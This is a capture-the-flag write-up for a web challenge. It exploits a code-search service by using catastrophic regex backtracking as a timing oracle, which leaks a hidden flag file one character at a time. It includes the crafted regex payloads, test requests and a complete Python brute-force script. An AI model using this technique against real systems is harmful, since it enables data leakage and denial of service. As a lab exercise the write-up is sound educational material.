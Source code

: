 This challenge allows us to search for words or expressions from a list of files containing programs written in different programming langauages.

![image](https://github.com/user-attachments/assets/bc95cbf1-776b-4cb2-8bc8-5b9d74457971)


On viewing the code_samples folder within the source code, we can see that there is a file `flag.txt`.


On viewing the source code, we can see that the visibility of flag.txt file is set to false.
```JS
function initializeFiles() {
  const files = fs.readdirSync(CODE_SAMPLES_DIR);
  files.forEach(file => {
    filesIndex[file] = {
      visible: file !== 'flag.txt',
      path: path.join(CODE_SAMPLES_DIR, file),
      name: file,
      language: LANG_MAP[path.extname(file)] || null
    };
  });
  console.log(chalk.green('Initialized file index.'));
}
```
But the file is still added to the list of files which are traversed. 
Which means that we won't be able to find the contents within this file but the system still goes through `flag.txt` everytime a search is made for the contents within it.

Further, we also can observe that, only a file which is set to be visible can be accessed.
```JS
app.get('/view/:fileName', (req, res) => {
  const fileName = req.params.fileName;
  const fileData = filesIndex[fileName];

  if (!fileData?.visible) {
    return res.status(404).send('File not found or inaccessible.');
  }
```

The idea for the solution is to use regex to identify the flag. Suppose our guess for the characters within the flag is correct, then there should be an extra delay in the response to indicate that the flag is correct.

https://regex101.com/ was used to assist in making of the regex.
The regex was made such that, in case the guess is correct, then there is no delay and otherwise there is a delay.

payload - 
` ^guess|^(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)~$ `
![image](https://github.com/user-attachments/assets/3ee6bddb-23c8-4057-bc89-d74c33bc3af8)

![image](https://github.com/user-attachments/assets/a36c929a-115a-45c1-bc06-2c520dba1668)
As observed, it shows *catastrophic backtracking* when the guess is incorrect and it loads quickly otherwise.

Hence, a python script is written based on this, such that we guess the next character using the delays. The python script assists to change the characters and check the delay.

However, while testing the query, we can observe - 
```
>>> r = requests.post(url, json={"query":"/^a|^(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)~$/","language":"All"})
>>> r.elapsed
datetime.timedelta(seconds=1, microseconds=11727)
>>> r = requests.post(url, json={"query":"/^u|^(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)~$/","language":"All"})
>>> r.elapsed
datetime.timedelta(seconds=1, microseconds=12811)

```
that the time required is almost the same whether the guess is correct or wrong.
This is because there are many files other than flag.txt which can match regex for the second part while not matching for the first so there will be the same delay regardless of our guess being right.

Hence we need to modify our payload to - 
` ^uoftctf{guess}|^uoft(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)~$ `
since ``uoft`` would not get any match out of the flag.txt file so the catastrophic backtracking won't happen unless the search is done within the flag.txt file.

Hence the final script made to solve the challenge -
```python
import requests

url = "http://localhost:32768/search"
flag = ""

charset = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890_{}"
while True:
  for ch in charset:
    r = requests.post(url, json={"query":"/^uoftctf\{" + flag + ch + "|^uoft(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)(.*?)~$/","language":"All"})
    if(r.elapsed.total_seconds() < 0.8):
      flag += ch
      print(flag)
      break
    if(ch == '}'):
      exit()
```
[this challenge was solved after the ctf ended]






